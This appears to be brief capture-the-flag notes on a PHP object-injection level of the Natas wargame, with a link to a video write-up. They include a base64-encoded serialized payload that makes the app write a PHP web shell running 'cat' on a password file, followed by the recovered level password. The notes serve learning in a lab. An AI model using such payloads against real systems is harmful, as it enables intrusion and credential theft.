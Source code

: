 # 25 -> 26

- img folder not accessible, but images are
- all the drawings are stored in a cookie (base64)
- logger class, but it isn't called
- I have no idea how to exploit this

## [Writeup](https://www.youtube.com/watch?v=IgxhtJQL-gY)

- I didn't know anything about serialization & object injection
- I didn't know __ functions in php
- unserializing = dangerous

```base64
Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoxNDoiaW1nL3dpbm5lci5waHAiO3M6MTU6IgBMb2dnZXIAaW5pdE1zZyI7czo1MDoiPD9waHAgc3lzdGVtKCdjYXQgL2V0Yy9uYXRhc193ZWJwYXNzL25hdGFzMjcnKTsgPz4iO3M6MTU6IgBMb2dnZXIAZXhpdE1zZyI7czo1MDoiPD9waHAgc3lzdGVtKCdjYXQgL2V0Yy9uYXRhc193ZWJwYXNzL25hdGFzMjcnKTsgPz4iO30=
```

> pass: 55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ
